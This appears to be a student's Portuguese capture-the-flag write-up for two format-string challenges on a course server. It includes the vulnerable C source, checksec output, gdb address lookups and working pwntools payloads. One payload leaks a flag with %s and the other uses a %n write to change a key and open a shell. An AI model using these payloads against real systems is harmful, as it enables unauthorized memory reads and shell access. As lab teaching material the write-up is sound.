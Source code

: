 ## CTF Part 1

- para sabermos com o que estamos a lidar demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scanf esta desprotegido, isto é não é efetuada sanitização de um buffer que é utilizado fornecido pelo utilizador(o que nos deixa aplicar a vulnerabilidade do format string), que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global , quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little endian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output

![Alt text](Images/image-71.png)

- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output

![Alt text](Images/image74.png)

- Nos executamos o codigo multiplas vezes e verificamos que o endereço era estatico com isso nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output

![Alt text](Images/image-72.png)

- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 

![Alt text](Images/image-73.png)

## CTF part 2

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
- Este é o main contido pelo zip do desafio 2 so com isto conseguimos ver que este codigo contem a mesma vulnerabilidade que é o scanf imprime diretamente codigo do utilizador sem sanatização conseguimos ver que para conseguirmos a flag nos temos que alterar o valor a key para 0xbeef que em hexadecimal é 48879 se conseguirmos fazer isso temos acesso a shell e depois podemos dar cat flag.txt
- para ver quais as proteções do programa vamos correr o checksec que da este output
![Alt text](Images/image8-3.png)

- com isto sabemos que estamos outravez diante um addresing com little edian de 32 bits
- proseguimos a encontrar o address da variavel global key utilizando o gdb tal como no exercicio anterior

![Alt text](Images/image8-1.png)

- executamos o gdb multiplas vezes e reparamos que o address não se altera e que tem o address com 7 characters porque o primeiro é zero ficando com o address 0x0804b324 como o address esta em little edian o address que vamos utilizar é 0x24 0xb3 0x04 0x08
 - nos mudamos o exploit mudado anterior nestas duas linhas , nos usamos os primeiros 4 characteres para dar um buffer de 32 bits para conseguirmos usar um %.{offset}x em que o offseet é o valor desejado em decimal que é 48879
o offset vai ser 48879 - 4(buffer dos AAAA) - 4 (o Address em si) = 48871 pois o %n vai contar o numero de bytes imprimidos e guardalos no endereço a que esta a apotar neste caso \x24\xb3\x04\x08%
 ```
    p = remote("ctf-fsi.fe.up.pt", 4005)
    p.sendline(b"AAAA\x24\xb3\x04\x08%.48871x%n")
 ```
 - executando o exploit que nos da acesso a shell podendo depois dar cat flag.txt para termos a flag

![Alt text](Images/image8-2.png)
